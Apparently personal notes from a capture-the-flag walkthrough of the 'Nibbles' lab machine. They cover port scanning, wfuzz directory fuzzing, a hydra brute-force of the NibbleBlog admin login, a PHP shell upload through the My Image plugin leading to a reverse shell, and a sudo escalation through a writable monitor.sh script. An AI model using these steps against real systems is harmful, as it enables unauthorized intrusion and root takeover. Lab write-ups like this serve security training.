




# scanning 
```bash
furious 10.10.10.75
nmap -sC -sV -Pn -n -p22,80 10.10.10.75 -oN targeted
```


# 80

```bash
whatweb 10.10.10.75
```


```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.75/FUZZ
```


```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.75/nibbleblog/FUZZ
```


```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.75/nibbleblog/FUZZ.php
```


reference from metasploit (Don't use it)
```bash
searchsploit -x php/remote/38489.rb
```
https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

# bruteforce attack
url: http://10.10.10.75/nibbleblog/admin.php
```bash
hydra -l "admin" -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"
```

**we got banned! >:v**
..so we try

username: admin 
password:nibbles

https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

# User flag

Activate My image plugin by visiting http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
Upload PHP shell, ignore warnings
Visit http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php.
This is the default name of images uploaded via the plugin.
now we made a reverse shell

```bash
cat /home/nibbler/user.txt
```
# Privilege scalation


```bash
mkdir personal/stuff -p
cd personal/stuff
echo "sh" >> monitor.sh
chmod +x monitor.sh
sudo ./monitor.sh
cat /root/root.txt
```
